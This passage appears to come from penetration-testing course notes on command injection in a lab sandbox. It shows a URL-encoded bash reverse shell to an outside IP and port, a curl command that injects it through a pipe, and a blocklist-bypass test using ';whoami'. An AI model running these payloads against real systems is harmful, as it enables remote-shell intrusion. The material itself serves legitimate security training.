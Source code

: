 Above, we have highlighted the bad ampersand (&) characters. These characters act as delimiters to the back-end web technology. When the payload is sent and processed, the web server will interpret everything after the ampersand as an expected parameter/value combination. This will break our payload. To have these characters interpreted in a way that results in code execution will require URL encoding and normalization.

To encode our payload, we can use Burp Suite's "URL Encode Key Characters" feature. We load our request into Burp Suite and inside the _Repeater_ tab, select our payload (the selected text will end up being URL Encoded). Next, we'll right-click the request and select _Convert Selection_ > _URL_ > _URL Encode Key Characters_.

![[Pasted image 20241030145841.png]]
Our payload is now URL-encoded and the request is ready to be sent.

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.222/9090+0>%261'
```
Encoding is an essential factor in any web payload delivery. To ensure that the target web server (such as _Apache_ or _Nginx_) correctly interprets various characters and does not invoke truncation or interpret two things as separate statements, we URL encode our payload to ensure successful delivery.

Now, let's inject our payload into the Node.js Command Injection Sandbox with curl.

```bash
curl "http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.222/9090+0>%261'"
```

Let's return to our Netcat listener.

By sending the wrapped and URL-encoded payload, we have received a root-privileged reverse shell!

Normalizing our payloads and making sure they are clean before being sent is an important skill to develop and re-implement when sending future requests. It will help us understand with absolute certainty that if our payload does not work due to suspected input normalization, it is not because of any bad characters or lack of URL encoding.

![[Pasted image 20241030150541.png]]

In the next section, we will discuss some typical methods of bypass for input sanitization.

-------------

#### 11.2.2. Typical Input Sanitization - Blocklisted Strings Bypass

Our next scenario is going to be a bit of a road block. If we try what we've learned so far in this Learning Module, we will not succeed. The endpoints we'll work with here implement common sanitization techniques that developers often implement to prevent command injection.

Let's jump in and demonstrate how our typical command injection attempts fail. If we attempt to inject the _whoami_ command at the `http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;whoami` endpoint, it fails as indicated by the verbose error message "ip Parameter is Empty or Contains Blocklisted Strings".

![[Pasted image 20241030151551.png]]
